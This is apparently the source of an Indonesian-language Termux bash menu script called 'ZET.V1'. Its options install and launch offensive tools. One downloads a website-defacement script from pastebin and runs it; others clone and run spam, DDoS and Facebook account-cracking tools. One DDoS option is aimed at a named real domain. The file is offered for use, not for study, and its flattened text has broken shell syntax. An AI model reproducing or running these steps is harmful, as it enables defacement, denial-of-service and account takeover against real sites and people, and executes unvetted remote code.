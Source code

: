 # ZET.V1
clear echo "\033[34;1m SELAMAT DATANG DI TOOLS ZET404" | lolcat echo "\033[35;1m SILAHKAN DI PILIH TOOLS NYA" | lolcat echo "\033[36;1m THANKS TO MR.NM372 AND ALL MY FRIEND'S" | lolcat clear   echo "[1] Deface Webdav" | lolcat echo "[2] LiteSpam" | lolcat echo "[3] Ddos Hammer" | lolcat echo "[4] Ddos Xerxes" | lolcat echo "[5] TorsHammer" | lolcat echo "[6] Lazymux" | lolcat echo "[7] Hack FB" | lolcat echo "[8] Install WPScan" | lolcat  echo "\033[35;1m Silahkan Di Pilih Yang Mau Di install | lolcat  read -p "#ZET404~>#" pilihan   if [ $pilihan = "1" ] || [ $pilihan = "1" ] then apt update &amp;&amp; upgrade apt install python2 pip2 install urllib3 chardet certifi idna requests apt install openssl curl pkg install libcurl ln -s /sdcard cd sdcard mkdir webdav cd webdav curl -k -O https://pastebin.com/raw/HnVyQPtR mv HnVyQPtR webdav.py python2 webdav.py cd cd /sdcard/webdav python2 webdav.py fi  if [ $pilihan = "2" ] || [ $pilihan = "2" ] then apt update apt upgrade pkg install toilet pkg install php pkg install git git clone https://github.com/4L13199/LITESPAM cd LITESPAM sh LITESPAM.sh fi  if [ $pilihan = "3" ] || [ $pilihan = "3" ] then pkg update pkg upgrade  pkg install python pkg install git git clone https://github.com/cyweb/hammer  cd hammer  python hammer.py python hammer.py -s fi  if [ $pilihan = "4" ] || [ $pilihan = "4" ] then apt install git  apt install clang  git clone https://github.com/zanyarjamal/xerxes  ls  cd xerxes  ls  clang xerxes.c -o xerxes  ls  ./xerxes  fi  if [ $pilihan = "5" ] || [ $pilihan = "5" ] then pkg update  pkg install git  Pkg install tor  pkg install python2  git clone https://github.com/dotfighter/torshammer.git  ls  cd torshammer  python2 torshammer.py -T -t seword.com  fi  if [ $pilihan = "6" ] || [ $pilihan = "6" ] then apt update &amp;&amp; apt upgrade apt install git git clone https://github.com/Gameye98/Lazymux cd Lazymux ls python2 lazymux.py fi   if [ $pilihan = "7" ] || [ $pilihan = "7" ] then apt update &amp;&amp; apt upgrade pkg install python2 git pip2 install mechanize git clone https://github.com/pirmansx/mbf ls cd mbf python2 MBF.py fi  if [ $pilihan = "8" ] || [ $pilihan = "8" ] then apt update &amp;&amp; apt upgrade apt install git apt install ruby git clone https://github.com/wpscanteam/wpscan/ cd wpscan chmod 777 wpscan.rb gem install bundle bundle install -j5 ruby wpscan.rb fi
